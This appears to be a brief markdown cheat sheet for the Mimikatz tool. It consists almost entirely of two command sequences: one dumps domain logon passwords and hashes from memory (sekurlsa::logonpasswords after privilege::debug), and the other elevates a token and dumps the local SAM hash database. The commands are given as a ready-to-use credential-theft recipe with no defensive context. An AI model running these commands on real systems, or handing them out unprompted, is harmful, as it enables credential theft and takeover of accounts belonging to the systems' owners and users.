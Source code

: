 # MIMIKATZ.exe

<img width="1107" height="484" alt="image" src="https://github.com/user-attachments/assets/f60e6293-7d52-4f5c-866c-7000c85e14c7" />



Domain hash/creds dumping
```
privilege::debug
sekurlsa::logonpasswords
```

local creds/hash dumping
```
privilege::debug
token::elevate
lsadump::sam
```

